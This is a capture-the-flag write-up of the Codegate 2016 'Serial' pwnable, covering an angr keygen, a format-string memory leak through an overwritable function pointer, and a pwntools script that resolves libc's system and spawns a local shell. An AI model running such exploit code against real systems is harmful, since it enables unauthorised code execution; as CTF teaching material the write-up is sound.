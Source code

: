 ```yaml
---
layout: post
title: Codegate Quals 2016 Serial
comments: false
category: ctf
tags: ctf, codegate, reversing, pwnable
---
```


This is a write-up of the challenge Serial from the Codegate qualification round 2016.

# The challenge

Serial is a 64bit x86 linux pwnable.

# Reversing

When the program is run, we got prompted for a product key:

```bash
$ ./serial
input product key:
```

After a short look at the binary we found that the check function was at `0x400ccb`,
and that it accepts 32 bytes of input which it somehow checks.
But after a first look at how the function worked we decided that is was simple but that it would be boring to reverse, and that it would take some time to write a keygen by hand.

So we decided on using [Angr](https://github.com/angr/angr), and so I wrote this script to crack it:

{% gist e6eac0e0a36be14096c3 %}

When we run this script it gives us the product key(after a short time):

```bash
$ python gen_serial.py
Serial is: '615066814080'
```

Giving this as input the program we finally get to the menu:

```bash
$ ./serial
input product key: 615066814080
Correct!
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >>
```

## The Bug

The program starts by allocating 10 elements of size 0x20 using `calloc`,
which we can then manipulate by the commands add, remove or dump.

The structure of these elements looks like:

```c
struct elem {
    char note[24];
    void *dump_func_pointer;
};
```

But the add command allows us to overwrite the function pointer,
and the dump command the just calls this pointer with a reference to the element as an argument.

# Exploitation

Luckily we have`printf` in the binary, so we can use the bug to call printf like

```c
printf("We can insert a nice format string here");
```

Thus we are able to read and write memory as we like, for example:

```python
from pwn import *

e = ELF("./serial")
r = process("./serial")

r.recvuntil("input product key:")
r.sendline("615066814080")

@MemLeak
def leak(addr):
    r.recvuntil("choice >> ")
    r.sendline("1")
    r.sendline("BB%13$sCC".ljust(24) + p64(e.plt["printf"]))
    # This is placed somewhere on the stack.
    r.sendline("3AAAAAAA"+p64(addr))
    # remember to remove the element, we only have 10.
    r.sendline("2\n0")
    r.recvuntil("BB")

    data = r.recvuntil("CC")[:-2] + "\x00"

    r.recvuntil("choice >> ")
    return data

# Magic from pwntools, which does pointer chasing and hashtable
# lookups to find stuff in memory. You should check it out.
d = DynELF(leak, elf = e)
system = d.lookup("system", "libc.so")
print "This is the address of 'system' in libc.so:", hex(system)
```

And it works:

```bash
$ python doit_serial.py
[*] '/home/user/serial'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[+] Starting program './serial': Done
[+] Loading from '/home/user/serial': 0x7f739e8e61a8
[+] Resolving 'system' in 'libc.so': 0x7f739e8e61a8
This is the address of 'system' in libc.so: 0x7f739e35a490
```

And now we simply need to use `system` as our dumper function and call it the right way:

```python
r.recvuntil("choice >> ")
r.sendline("1")
r.sendline("sh;".ljust(24) + p64(system))
r.sendline("3")

# lol, have a shell
r.clean()
r.interactive()
```

## Final exploit

{% gist 4701e02ad015f9d1935c %}


